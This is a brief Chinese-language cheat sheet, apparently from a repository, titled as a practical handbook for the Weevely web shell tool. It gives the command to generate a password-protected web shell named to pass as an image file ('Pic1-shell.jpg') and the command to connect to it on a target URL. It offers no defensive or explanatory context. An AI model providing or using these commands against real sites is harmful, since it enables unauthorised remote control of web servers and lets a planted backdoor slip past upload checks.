 # Weevely 实战手册

- 创建木马

```
weevely generate kali Pic1-shell.jpg
```

- 连接木马

```
weevely [url] <password>
```